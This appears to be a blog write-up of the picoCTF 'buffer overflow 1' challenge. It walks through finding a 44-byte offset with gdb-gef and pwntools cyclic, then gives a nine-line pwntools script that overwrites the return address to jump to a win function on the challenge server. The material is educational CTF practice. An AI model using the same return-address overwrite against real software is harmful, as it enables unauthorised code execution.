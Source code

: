 ```yaml
---
title: "Controlling Return Addresses with Buffer Overflows"
date: 2023-01-11T17:36:35-05:00
draft: false
tags: ["binary exploitation","reverse engineering"]
---
```

1When I was younger, I was always fascinated with the idea of being able to break things digitally. However, I always believed that I was not smart enough to pursue this. In 2022, I have decided to start learning reverse engineering again! Starting out, I have started the Modern Binary Exploitation crackme files, and have been doing the picoCTF training ones as well. In this article I will cover picoCTF buffer-overflow1!

<!--more-->

### Start
Firstly, lets create a new directory called `bufferoverflow1` or whatever you would like to call it, then cd into that directory and wget both the vuln file and vuln.c file. Opening vuln.c with nano shows this:
![image](/img/1/p1.png)

It looks like buf is a character buffer with a size of 64 bytes. We also have a function called win, but win is never called... So how do we go about calling win? Well, firstly lets run vuln to see how it works. Mark it as executable with `chmod +x vuln` and then type `./vuln`
Entering any input should be fine here, so let's enter hello. After entering hello, we get the output:

```Okay, time to return... Fingers Crossed... Jumping to 0x804932f.``` 

Ok, so lets break this! Lets open gdb-gef (make sure you have gdb installed first then: [download gdb-gef](https://github.com/hugsy/gef)), and type `b main` to set a breakpoint at the main function. Then type `r` to resume.
![image](/img/1/p2.png)

We should be seeing something like this. Now what we can do is use pwntools (`pip install pwntools`) cyclic to generate a recognizable string for us. If we type `shell cyclic 64` and copy the output of that, we can type `c` again to continue. If we now paste in our string, and enter, we should see something like this:
![image](/img/1/p3.png)

If we look, we can see that vuln has been stopped at `0x61616c` with value `laaa`. If we now search for this pattern, using `search pattern 0x6161616c`, we can see two offsets. 44 for little endian and 41 for big endian. Just make note of these two for now. Now we need to get the address of the win function so that we can make our exploit redirect to the memory address of win. Type `x win` and note that as well. Lets exit gdb and type `file vuln`. The output tells us that vuln is an LSB executable and LSB corresponds to little endian, so vuln is in little endian. What is an endian you might ask? Well, endian is the way that our computers read and organize data. Little endian stores data with LSB first, and big endian stores data with MSB first. Ok, now we have our offset of 44. Now it is time to write out payload!

### Payload

These 9 lines are our entire payload! Let's go over what each line does.
![output](/img/1/p4.png)
1. `from pwn import *` — we import pwntools.
2. `payload = b'A'*44` — we make a variable: payload that contains the bytes of 44 A's.
3. `payload += p32(0x80491f6)` — we add the memory address of win, converted to little endian, to our payload.
4. `host, port = "saturn.picoctf.net", "[EXAMPLE_PORT]"` — we create two new variables named host and port. Put your port in example port.
5. `connection = remote(host, port)` — using pwntools remote, we create connection using our host and port.
6. `log.info(connection.recvS())` — log is used to make our output pretty, and we make log output connection.recvS(), and recvS means read data silently.
7. `connection.sendline(payload)` — we send our payload to our connection.
8. `log.success(connection.recvallS())` — if our log succeeds, output connection.recvallS(), which means read all bytes silently.
9. `connection.close()` — close our connection.

Alright, lets run this now! Going back to our terminal, we can type `python3 payload.py`:


Looking at our output, clearly everything worked smoothly. If we look, we can see that the program says time to jump with the memory address of `0x80491f6`. If we remember earlier, this is the memory address of win, which prints our flag!

### Conclusion
This was a very basic introduction to binary exploitation, and I hope to be able to cover more in the future!